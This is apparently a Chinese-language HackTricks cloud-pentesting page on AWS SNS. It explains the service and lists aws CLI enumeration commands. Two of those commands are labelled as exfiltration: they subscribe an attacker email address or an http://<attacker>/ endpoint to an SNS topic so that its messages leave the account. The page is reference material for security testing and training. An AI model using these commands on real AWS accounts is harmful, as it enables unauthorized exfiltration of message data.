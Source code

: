 # AWS - SNS Enum

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) 被描述为一个**完全托管的消息服务**。它支持**应用到应用** (A2A) 和**应用到人** (A2P) 的通信类型。

A2A 通信的关键特性包括**发布/订阅 (pub/sub) 机制**。这些机制引入了**主题**，对于实现高吞吐量、**基于推送的多对多消息传递**至关重要。在涉及分布式系统、微服务和事件驱动的无服务器架构的场景中，这一特性非常有利。通过利用这些主题，发布系统可以高效地将消息分发给**广泛的订阅系统**，促进扇出消息传递模式。

### **与 SQS 的区别**

**SQS** 是一种**基于队列**的服务，允许点对点通信，确保消息由**单个消费者**处理。它提供**至少一次交付**，支持标准和 FIFO 队列，并允许消息保留以进行重试和延迟处理。\
另一方面，**SNS** 是一种**发布/订阅**服务，通过将消息同时广播给**多个订阅者**来实现**一对多**通信。它支持**各种订阅端点，如电子邮件、SMS、Lambda 函数和 HTTP/HTTPS**，并提供过滤机制以实现有针对性的消息传递。\
虽然这两种服务都能在分布式系统中实现组件解耦，但 SQS 专注于队列通信，而 SNS 强调事件驱动的扇出通信模式。

### **枚举**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
注意，如果**主题是FIFO类型**，只能使用协议为**SQS**的订阅者（不能使用HTTP或HTTPS）。

此外，即使`--topic-arn`包含了区域，确保在**`--region`**中指定正确的区域，否则你会遇到一个看起来像是没有访问权限的错误，但实际上问题是区域不正确。
{% endhint %}

#### 未经身份验证的访问

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 权限提升

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 利用后操作

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 持久性

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 参考资料

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
学习和练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PR分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库。

</details>
{% endhint %}
